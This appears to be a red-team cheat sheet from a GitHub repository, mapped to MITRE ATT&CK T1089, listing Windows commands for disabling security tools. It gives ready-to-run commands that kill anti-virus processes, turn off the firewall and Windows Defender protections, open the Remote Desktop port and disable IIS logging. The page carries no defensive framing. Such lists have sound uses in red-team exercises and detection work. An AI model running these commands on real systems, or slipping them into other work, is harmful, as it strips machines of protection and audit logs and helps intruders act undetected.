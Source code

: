 # Disabling Security Tools

MITRE ATT&CK Technique: [T1089](https://attack.mitre.org/wiki/Technique/T1089)

### Terminate Anti-Virus Processes
    Taskkill /F /IM avprocess.exe

### Disable Firewall
    netsh firewall set opmode disable

### Stop Windows Security Center
    net stop wscsvc

### Add Local Firewall Rule Exceptions : Enable a Program
    netsh advfirewall firewall add rule name="My Application" dir=in action=allow program="C:\MyApp\MyApp.exe" enable=yes

### Add Local Firewall Rule Exceptions : Enable a Port
    netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

### Disable The LAN Network Connection
    netsh interface set interface name="Local Area Connection" admin=disabled

## Stop Windows Defender

### Windows 7/8
   net stop windefend

### Windows 10
    Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
    Set-MpPreference -DisableIOAVProtection $true -Verbose
    Set-MpPreference -DisableBehaviorMonitoring $true -Verbose
    Set-MpPreference -DisableIntrusionPreventionSystem $true -Verbose
    Set-MpPreference -DisablePrivacyMode $true -Verbose

## Disable Default Web Site Logging IIS 7

### Disable Default Web Site Logging IIS 7
   %windir%\system32\inetsrv\appcmd.exe set config "Default Web Site" -section:system.webServer/httpLogging /dontLog:"True" /commit:apphost

### Restart Default Web Site IIS 7
   %windir%\system32\inetsrv\appcmd.exe stop site /site.name:"Default Web Site" && %windir%\system32\inetsrv\appcmd.exe start site /site.name:"Default Web Site"

